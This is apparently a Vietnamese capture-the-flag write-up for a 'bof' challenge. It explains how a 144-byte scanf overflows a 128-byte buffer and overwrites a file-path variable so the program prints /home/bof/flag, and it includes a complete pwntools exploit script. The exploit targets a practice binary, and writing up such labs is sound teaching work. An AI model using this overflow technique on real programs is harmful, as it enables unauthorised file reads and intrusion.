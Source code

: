 # Decription
![](images/bof.png)

## Source
Bài không cho chúng ta source mà chỉ có binary. Dùng ida để dịch ngược.

Main Func:
![](images/main.png)
Read_cat Func:
![](images/read_cat.png)

### Problem
Ta dễ thấy trong hàm main v4 được khai báo 128 bytes mà scanf lại nhập tới 144 bytes.
-> v5 bị ghì đè.

Mà ta thấy read_cat sẽ mở v5 đọc và in nó ra.

Hơn nữa trong mô tả ta thấy rằng flag ở trong /home/bof/flag.

-> ghì đè v5 thành /home/bof/flag.

#### Solve

payload = b'a'*128
payload +=b'/home/bof/flag'

![](images/test.png)

Hmm. Tôi sẽ tạo 1 file trong /home/bof/flag trên máy local để test.

![](images/flagfake.png)

Chạy lại script:
![](images/flag.png)

Rồi. Connect lên server là lấy flag thật.

#### Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
# GDB()

payload = b'a'*128
payload +=b'/home/bof/flag'

sl(payload)

p.interactive()
```
